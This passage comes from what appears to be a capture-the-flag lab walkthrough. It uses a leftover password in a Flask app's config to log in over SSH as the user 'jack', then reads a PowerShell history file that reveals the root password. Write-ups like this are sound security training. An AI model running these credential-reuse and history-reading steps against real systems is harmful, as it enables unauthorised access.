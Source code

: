 ```


#ADMIN_PASSWORD = 'ee05d64d2528102d45e2db60986727ed'
ADMIN_PASSWORD = '1edfa9b54a7c0ec28fbc25babb50892e'
APP_DIR = os.path.dirname(os.path.realpath(__file__))
DATABASE = 'sqliteext:///%s' % os.path.join(APP_DIR, 'blog.db')
DEBUG = False
SECRET_KEY = '2d82e3a08a632feb12a4d2e1159a224750480122a1fb9845e67a7305cfff4ec8'
...
>>>
```

The app contains a commented-out admin user password (`#ADMIN_PASSWORD = 'ee05d64d2528102d45e2db60986727ed'`). Recall the contents of the **note.txt** file we recovered from the FTP server:

```
...
TODO: remove leftover passwords from testing
```

Let’s take advantage of this forgotten to-do item.

### SSH

Since there are two user accounts on this system (`jack` and `root`), let’s venture an educated guess that this Flask password may be shared  with a system user account. Although the password doesn’t work for root, we are able to login as `jack` with a password of `ee05d64d2528102d45e2db60986727ed`.

```
kali@kali:~$ ssh jack@192.168.120.121
...
jack@reconstruction:~$ id
uid=1001(jack) gid=1001(jack) groups=1001(jack)
jack@reconstruction:~$
```

As we enumerate the home directory, we discover **/home/jack/.local/share/powershell/PSReadLine/ConsoleHost_history.txt** which is a PowerShell history file. Let’s check out the contents of this file.

```
jack@reconstruction:~$ cat .local/share/powershell/PSReadLine/ConsoleHost_history.txt
Write-Host -ForegroundColor Green -BackgroundColor White Holy **** this works!
Write-Host -ForegroundColor Red -BackgroundColor Black Holy **** this works as well!
su FlauntHiddenMotion845
clear history
clearr
cls
exit
jack@reconstruction:~$
```

This history indicates a relatively common mistake. The `jack` user accidentally entered the root password on the command line with `su`. Realizing the mistake, `jack` ran `clear history` to attempt to clear the history, but the proper command to clear the PowerShell history is `Clear-History` so the attempt failed. Then, `jack` ran `clearr` to clear the screen, which also failed since the proper command is `clear`. Finally, `jack` ran `cls` which is a PowerShell alias that clears the screen, but leaves the history untouched. After all this flailing about, `jack` left the cleartext password in the history file.
